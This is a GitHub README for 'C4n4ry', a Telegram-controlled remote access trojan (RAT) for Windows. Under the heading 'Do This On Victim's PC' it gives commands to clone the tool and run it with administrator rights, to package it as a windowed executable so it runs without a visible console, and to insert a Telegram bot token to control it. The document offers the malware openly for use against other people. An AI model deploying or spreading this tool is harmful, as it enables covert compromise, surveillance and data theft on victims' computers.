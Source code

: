 <p align="center">
<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&weight=700&duration=3000&pause=900&random=false&width=435&lines=Welcome+To+The+C4n4ry!!" alt="Typing SVG" /></a>
</p>

###### <p align="center">*This is official repository maintained by me*
###### <p align="center"> *[0xb14cky → Instagram](https://www.instagram.com/0xb14cky/)✌*
###### <p align="center"> *[0xB14CKY→ Youtube](https://www.youtube.com/channel/UC8bmAXnfIitSouOnhD9bjzA/) ❤️*
  

## C4n4ry
 
A Simple Telegram API Based Remote RAT for Windows

## Do This On Victim's PC

1. Running .py file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
pip install -r requirements.txt
python C4n4ry.py
```
2. Running .exe file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
# auto-py-to-exe or pyinstaller
pip install pyinstaller auto-py-to-exe
pyinstaller --noconfirm --onefile --windowed C4n4ry.py
```

- How to Obtain Own API of Telegram
[https://core.telegram.org/api/obtaining_api_id]
 
- Add Your Telegram API Key in File

```py
# Telegram Token
TOKEN = ""
```

 ### Development by

Developer / Author: [0xB14CKY](https://www.instagram.com/0xb14cky/)


